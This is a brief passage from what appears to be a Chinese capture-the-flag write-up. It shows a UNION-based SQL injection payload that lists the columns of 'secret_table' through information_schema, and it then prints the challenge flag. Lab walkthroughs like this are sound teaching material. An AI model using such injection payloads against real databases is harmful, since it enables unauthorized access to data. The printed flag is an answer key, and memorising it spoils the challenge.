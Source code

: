      由查询结果可知，数据库为news，表名为secret_table。

   - 这一步查询secret_table的字段名：
   
     ```mysql
  ' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table' #
     ```

     ![image-20210203210237927](images/image-20210203210237927.png)

   - 由结果可得：

     结果在fl4g字段中：

     ![image-20210203210657111](images/image-20210203210657111.png)
   
     `QCTF{sq1_inJec7ion_ezzz} `

## 二. 序列化与反序列化题目
